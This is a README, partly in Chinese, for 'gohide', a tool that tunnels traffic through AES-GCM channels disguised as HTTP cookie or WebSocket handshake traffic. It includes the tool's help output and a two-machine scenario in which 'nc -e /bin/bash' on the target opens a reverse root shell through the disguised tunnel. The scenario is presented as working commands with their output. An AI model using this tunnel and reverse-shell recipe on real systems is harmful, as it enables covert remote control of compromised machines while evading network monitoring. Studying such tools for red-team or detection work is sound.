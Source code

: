 # Tunnel

通过带AES-GCM加密的模糊通道隧道端口到端口的流量。

**Obfuscation Modes**

- Session Cookie HTTP GET (http-client)
- Set-Cookie Session Cookie HTTP/2 200 OK (http-server)
- WebSocket Handshake "Sec-WebSocket-Key" (websocket-client)
- WebSocket Handshake "Sec-WebSocket-Accept" (websocket-server)
- No obfuscation, just use AES-GCM encrypted messages (none)

默认情况下，上述每个选项都启用了AES-GCM。

**Usage**

```
root@WOPR-KALI:/opt/gohide-dev# ./gohide -h
Usage of ./gohide:
  -f string
    	listen fake server -r x.x.x.x:xxxx (ip/domain:port) (default "0.0.0.0:8081")
  -key openssl passwd -1 -salt ok | md5sum
    	aes encryption secret: use '-k openssl passwd -1 -salt ok | md5sum' to derive key from password (default "5fe10ae58c5ad02a6113305f4e702d07")
  -l string
    	listen port forward -l x.x.x.x:xxxx (ip/domain:port) (default "127.0.0.1:8080")
  -m string
    	obfuscation mode (AES encrypted by default): websocket-client, websocket-server, http-client, http-server, none (default "none")
  -pem string
    	path to .pem for TLS encryption mode: default = use hardcoded key pair 'CN:target.com', none = plaintext mode (default "default")
  -r string
    	forward to remote fake server -r x.x.x.x:xxxx (ip/domain:port) (default "127.0.0.1:9999")
```

**Scenario**

Box A - Reverse Handler.

```
root@WOPR-KALI:/opt/gohide# ./gohide -f 0.0.0.0:8081 -l 127.0.0.1:8080 -r target.com:9091 -m websocket-client
Local Port Forward Listening: 127.0.0.1:8080
FakeSrv Listening: 0.0.0.0:8081
```

Box B - Target.

```
root@WOPR-KALI:/opt/gohide# ./gohide -f 0.0.0.0:9091 -l 127.0.0.1:9090 -r target.com:8081 -m websocket-server
Local Port Forward Listening: 127.0.0.1:9090
FakeSrv Listening: 0.0.0.0:9091
```

Note: /etc/hosts "127.0.0.1 target.com"

Box B - Netcat /bin/bash

```
root@WOPR-KALI:/var/tmp# nc -e /bin/bash 127.0.0.1 9090
```

Box A - Netcat client

```
root@WOPR-KALI:/opt/gohide# nc -v 127.0.0.1 8080
localhost [127.0.0.1] 8080 (http-alt) open
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux WOPR-KALI 5.3.0-kali2-amd64 #1 SMP Debian 5.3.9-1kali1 (2019-11-11) x86_64 GNU/Linux
netstat -pantwu 
Active Internet connections (servers and established)
tcp        0      0 127.0.0.1:39684         127.0.0.1:8081          ESTABLISHED 14334/./gohide   
```